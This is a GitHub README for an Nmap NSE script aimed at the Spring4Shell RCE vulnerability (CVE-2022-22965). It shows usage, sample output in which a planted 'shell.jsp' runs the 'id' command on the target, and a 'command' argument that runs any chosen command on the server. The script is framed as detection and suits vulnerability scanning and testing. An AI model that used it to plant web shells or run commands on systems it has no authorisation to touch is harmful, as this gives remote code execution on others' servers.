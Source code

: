 # nmap-spring4shell
Log4shell-nmap is an NSE script for detecting Spring4Shell RCE vulnerabilities (CVE-2022-22965) in HTTP services. The script injects the correct payload into the application and then executes the following command on the specified endpoint.

## Vulnerability
See [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/).

## Usage
```
┌──(kali㉿kali)-[~/nmap-spring4shell]
└─$ nmap 127.0.0.1 --script=./spring4shell.nse
(...)
PORT     STATE SERVICE    REASON  VERSION
8080/tcp open  http-proxy syn-ack
| spring4shell: 
|   VULNERABLE:
|   Spring4Shell - Spring Framework RCE via Data Binding on JDK 9+
|     State: VULNERABLE
|     IDs:  CVE:CVE-2022-22965
|     Check results:
|       127.0.0.1:8080/shell.jsp?pwd=j&cmd=id
|     Extra information:
|       TESTED URL: 127.0.0.1:8080
|       COMMAND: id
|       ASSERTION: uid
|     References:
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965
```

## Arguments
We can use several variables in the script. These are as follows:
- endpoint - relative url. On `https://bugspace.pl/search/videos` it will be `/search/videos`,
- command - command to be run on the server.  The default command is `id`,
- assertion - the checked string inside the server response. The default assertion is `uid`,
- filename - file name on the server. For more information see [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/). The default name is `shell`.

## Sources to check
https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## License
Same as Nmap. See https://nmap.org/book/man-legal.html
